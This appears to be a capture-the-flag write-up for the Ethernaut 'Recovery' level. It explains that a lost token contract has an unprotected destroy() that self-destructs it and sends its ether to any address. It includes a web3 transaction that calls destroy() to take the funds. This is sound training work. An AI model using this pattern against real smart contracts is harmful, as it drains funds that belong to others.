 # Level 17: [Recovery](https://ethernaut.openzeppelin.com/level/0xb4B157C7c4b0921065Dded675dFe10759EecaA6D)

## Level objectives:
Recover (or remove) the 0.001 ether from the lost contract address.
## Analysis (lol)
- The token contract has a destroy function that triggers it's own `selfdestruct` and sends ether to the `_to` address param.
- The contract we're handed by ethernaut is the `Recovery`, not the token contract.
- Find the token contract address by following the tx chain on etherscan then trigger it's `destroy()` function.

## Code:
```js
web3.eth.sendTransaction({
  from: "0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4",
  to: "0xe3B00d0d367f96a1eaC69C866e58680A7161c795",
  data: web3.eth.abi.encodeFunctionCall({
    name: 'destroy',
    type: 'function',
    inputs: [{
      name: "_to",
      type: "address",
    }],
  }, ["0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4"])
});
```